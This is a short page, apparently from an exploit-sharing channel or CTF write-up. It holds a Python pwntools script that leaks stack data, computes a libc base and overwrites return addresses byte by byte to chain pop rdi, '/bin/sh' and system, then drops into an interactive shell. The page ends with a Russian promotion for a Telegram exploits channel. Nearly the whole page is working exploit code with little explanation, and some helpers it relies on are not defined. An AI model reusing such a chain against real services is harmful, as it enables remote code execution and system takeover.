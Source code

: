 ```python

def set_byte(offset, value):
    payload = [-15] + [0x18] * (0x100 - 0xbc + 0xa8) + [0x28 + offset] * value
    payload = [x & 0xFF for x in payload]

    assert len(payload) < 512

    pwn.sleep(0.2)

    r.send(bytes(payload))

    leak = b''
    for i in range(100000):
        part = r.recv(1024, timeout = 0.2)
        leak += part

        if len(part) == 0:
            break

    print(f'[{offset}] => {hex(value)} ({len(payload)})')

leaked = leak_stack()
stack_values = [
    pwn.u64(leaked[40:48]),
    pwn.u64(leaked[48:56]),
    pwn.u64(leaked[56:64]),
    pwn.u64(leaked[64:72]),
]

libc_base = pwn.u64(leaked[40:48]) - 0x2a1ca
print(f'libc_base @ 0x{libc_base:x}')

target_values = [
    libc_base + pop_rdi_ret,
    libc_base + binsh,
    0x00,
    libc_base + system,
]

for i in range(len(target_values)):
    stack = stack_values[i]
    target = target_values[i]

    for k in range(8):
        value1 = (0x100 - ((stack >> (k*8)) & 0xFF)) & 0xFF
        print(f'setting byte {i}*8 + {k} to {hex(value1)}')
        set_byte(i*8 + k, value1)
        value2 = (target >> (k*8)) & 0xFF
        print(f'setting byte {i}*8 + {k} to {hex(value2)}')
        set_byte(i*8 + k, value2)

r.interactive()
```

*Подписывайтесь на TG канал [/b/exploits](https://t.me/sploitdev)*